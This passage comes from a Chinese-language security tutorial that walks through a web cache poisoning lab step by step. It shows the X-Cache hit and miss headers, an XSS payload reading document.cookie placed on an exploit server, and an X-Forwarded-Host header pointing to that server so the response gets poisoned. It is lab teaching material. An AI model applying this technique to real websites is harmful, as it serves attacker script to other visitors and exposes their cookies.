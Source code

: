 1.  此外，在查看响应时，如 *图 10**.16* 所示，响应中包含 `X-Cache: hit` 头部。如果看到 `X-Cache: miss` 头部，请继续点击 **发送**，直到获得命中结果：

![图 10.17 – X-Cache: miss 响应](img/Figure_10.17_B18829.jpg)

图 10.17 – X-Cache: miss 响应

`X-Cache` 头部是一个 HTTP 响应头部，用于指示资源是从网页服务器的缓存中提供的，还是直接从源服务器提供的。如果头部包含 `hit` 的值，则表示资源是从缓存中提供的，这比直接从源服务器提供资源更快捷、更高效。这对于提高网站性能非常有用，因为它可以减少服务器与客户端之间传输的数据量。

1.  通过这些信息，点击链接前往攻击服务器并更新文件名为来自绝对 URL 的 JavaScript 路径：

    ```
     /resources/js/tracking.js
    ```

1.  接下来，输入一个 JavaScript XSS 负载到请求体中，并点击 **保存** 以保存攻击：

    ```
     alert(document.cookie)
    ```

1.  再次打开 `GET` 请求并在 **手动响应编辑器** 中删除缓存清除参数，然后添加指向攻击服务器的 `X-Forwarded-Host` 头部（确保使用攻击页面顶部提供的 **EXPLOIT-SERVER-ID**）：

    ```
     X-Forwarded-Host: EXPLOIT-SERVER-ID.exploit-server.net
    ```

![图 10.18 – 网页缓存污染的 GET 请求](img/Figure_10.18_B18829.jpg)

图 10.18 – 网页缓存污染的 GET 请求

重要提示

在构造 `GET` 请求时，务必移除缓存清除头部，并且在添加攻击服务器 URL 时，不要包括 `https://` 或尾部的 `/`。

1.  点击 **发送**，并继续发送请求，直到攻击服务器 URL 在响应中显示，并且头部中包含 `X-Cache: hit`，如 *图 10**.19* 所示：
